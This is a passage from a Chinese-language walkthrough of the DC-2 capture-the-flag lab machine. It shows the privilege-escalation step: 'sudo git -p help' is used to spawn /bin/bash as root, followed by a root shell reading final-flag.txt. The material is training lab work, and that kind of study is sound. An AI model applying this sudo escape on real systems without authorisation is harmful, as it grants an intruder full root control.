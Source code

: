 ![在这里插入图片描述](【渗透项目】靶机DC-2渗透过程.assets/20200317133844171.png)
# 提权操作
>sudo git -p help

![在这里插入图片描述](【渗透项目】靶机DC-2渗透过程.assets/20200317140351441.png)
sudo后，以root身份调用/bin/bash，成功提权
![在这里插入图片描述](【渗透项目】靶机DC-2渗透过程.assets/20200317140506203.png)
```
root@DC-2:/home/jerry# cd ~
root@DC-2:~# ls
final-flag.txt
root@DC-2:~# cat final-flag.txt 
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

```